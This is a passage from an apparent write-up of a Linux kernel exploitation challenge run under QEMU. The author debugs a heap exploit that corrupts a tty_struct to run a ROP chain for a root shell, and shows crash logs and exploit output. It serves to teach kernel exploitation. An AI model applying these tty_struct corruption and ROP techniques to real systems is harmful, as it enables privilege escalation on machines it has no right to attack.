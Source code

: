 Doing this, I got a kernel crash as shown below:
```sh
[+] ROP chain executed, should have spawned shell!
[    5.056846] general protection fault: 0000 [#1] PREEMPT SMP NOPTI
[    5.057223] CPU: 0 PID: 65 Comm: exploit Tainted: G           O       6.6.16 #1
[    5.057436] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[    5.057783] RIP: 0010:0xdeadbeefdeadbe13
[    5.058198] Code: Unable to access opcode bytes at 0xdeadbeefdeadbde9.
[    5.058382] RSP: 0018:ff5a0a05c0193dc8 EFLAGS: 00010282
[    5.058534] RAX: deadbeefdeadbe13 RBX: 0000000000000000 RCX: 000000000006be40
[    5.058698] RDX: 0000000000000001 RSI: ff1a599cc1b80bf0 RDI: ff1a599cc1bcbc00
[    5.058863] RBP: 0000000000000000 R08: 0000000000000000 R09: 000000000002eb50
[    5.059028] R10: ff1a599cc1242980 R11: 0000000000000000 R12: ff1a599cc1bcbc00
[    5.059220] R13: ff1a599cc1bcbdd0 R14: 0000000000000000 R15: 0000000000000000
[    5.059415] FS:  0000000000000000(0000) GS:ff1a599cc7600000(0000) knlGS:0000000000000000
[    5.059614] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    5.059750] CR2: deadbeefdeadbe13 CR3: 0000000005c2e000 CR4: 0000000000751ef0
[    5.059934] PKRU: 55555554
[    5.060041] Call Trace:
[    5.060549]  <TASK>
[    5.060761]  ? die_addr+0x31/0x80
[    5.060938]  ? exc_general_protection+0x1af/0x3d0
[    5.061058]  ? asm_exc_general_protection+0x26/0x30
[    5.061183]  ? __tty_hangup.part.0+0x332/0x370
[    5.061288]  ? tty_release+0xe1/0x4e0
[    5.061377]  ? __fput+0xe8/0x280
[    5.061458]  ? task_work_run+0x58/0x90
[    5.061552]  ? do_exit+0x345/0xac0
[    5.061635]  ? hrtimer_interrupt+0x11c/0x230
[    5.061741]  ? do_group_exit+0x2c/0x80
[    5.061826]  ? __x64_sys_exit_group+0x13/0x20
[    5.061925]  ? do_syscall_64+0x3f/0x90
[    5.062015]  ? entry_SYSCALL_64_after_hwframe+0x6e/0xd8
[    5.062169]  </TASK>
# more stuff
```

But RIP points to `0xdeadbeefdeadbe13` which is weird as it's for `hangup()`. After a lot of thought, I came to a realization that I was infact corrupting a `tty_struct` but it was not the one that I spawned. 

The reason for this was that I had a lot of pretty `printf` functions for logging and debugging which ended up causing enough delay that other `tty_struct` would get allocated in my freed heap.

#### 12. root???

After clearing the code up, I was finally able to get my RIP to point wherever I wanted and it could be confirmed using the call trace from the crash logs.

```sh
[+] Spamming ioctls to execute ROP chain...
[-] Failed to execute ROP chain on PTY 0: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 1: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 2: Inappropriate ioctl for device
[    6.260309] BUG: unable to handle page fault for address: 00000000c319b808
[    6.260836] #PF: supervisor read access in kernel mode
[    6.261044] #PF: error_code(0x0000) - not-present page
[    6.261349] PGD 1c14067 P4D 1c0b067 PUD 0 
[    6.261736] Oops: 0000 [#1] PREEMPT SMP NOPTI
[    6.262197] CPU: 0 PID: 65 Comm: exploit Tainted: G           O       6.6.16 #1
[    6.262526] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[    6.262996] RIP: 0010:e1000e_read_phy_reg_m88+0x46/0x60
```